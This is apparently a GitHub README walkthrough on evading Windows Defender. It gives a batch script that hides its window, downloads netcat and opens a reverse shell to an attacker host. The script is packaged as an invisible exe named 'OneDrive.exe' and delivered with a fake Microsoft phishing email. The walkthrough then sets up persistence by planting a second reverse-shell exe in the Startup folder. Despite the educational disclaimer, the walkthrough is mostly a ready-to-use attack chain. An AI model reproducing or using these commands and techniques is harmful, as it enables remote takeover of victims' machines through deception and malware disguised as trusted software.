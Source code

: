 # Bypassing-Windows-Defender-for-fun
![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/26c6e32c-51d0-45a0-b9e2-d0c523e9be7d)


# Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

# Credits:
-Senouy

# Introduction:
In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in a Windows machine protected by MS Defender.

Let’s take a look at the script we are using.

`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :

`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1ede01d4-2180-4295-92b0-473789660405)


We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/5f785b6a-785e-4365-834e-7f4722d14429)


![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/59ad8cc1-e804-423f-afec-6e6c09d5debe)


I’ve crafted a fake email using some sentences that official Microsoft teams use in their texts and used a fake Microsoft account to make it look more authentic. You can find the email here https://pastebin.com/XFrn4Z4w

Now, onto a Windows machine, the first test subject is Windows 10 version 2004. This version of Windows 10 was released back on May 27, 2020, so it's not that old.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1171f4ff-bb0a-4cc3-a476-31dd97e7d534)


We now start our listner on the 9999 port and proceed to run the OneDrive.xe on the Windows machine.

`$nc –lnvp 9999`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/67ee4068-61d4-4511-a6af-4752f7d954ca)


After the victim has ran our malicious file, we get a reverse shell. Meaning we can control his computer and all sorts of thing including removing/creating folders and files acccessing every path we want. But there are some limitations. As you can see we are logged in as the user so that means we only have the user privileges and we need to gain Administrator rights in order to have all the rights and permissions available on the system.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/af552987-7c9d-404e-854c-125b8b269d13)


# Privilege Escalation and Persistence :

On this phase I’ve prepared a script that will help us gain a reverse shell with admin privileges and in any case we lose access to the machine or our shell breaks. No worries we’ll get another one once the victim machine has restarted.
The script is as follows :

`@echo off
C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

-I used the bat-to-exe-converter to convert/build this batch script to an exetuable file and named it `startup.exe`.

The first step is to transfer our exe to the victim machine. So to do that I started a simple http server where my startup.exe is located. To do that use the following command:

`$python3 –m http.server 80`

On the victim machine change directory to `C:\Users\Public\Downloads\` . Then download the script and move it to the `startup applications folder` using these commands :

`$curl –o startup.exe http://10.0.5.29/startup3.exe`

`$copy "C:\Users\Public\Downloads\startup.exe" "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/8e482e24-8b37-4377-9b3c-693d6ed33a3b)


Finally you can send a command to reboot the machine ‘’shutdown –r –t 0’’ or wait for the victim user to reboot it and you’ll get a shell again but this time you’ll have admin rights.

TIP: Don’t forget to start your listener again.

# Conclusion :

This attack has succeeded in both Windows 10 version 2004 and the latet Windows 10 2023 at the time doing this experiment.

I hope you all enjoyed this walkthrough and had fun discovering what casual tools we use and some scripting knowledge can do.


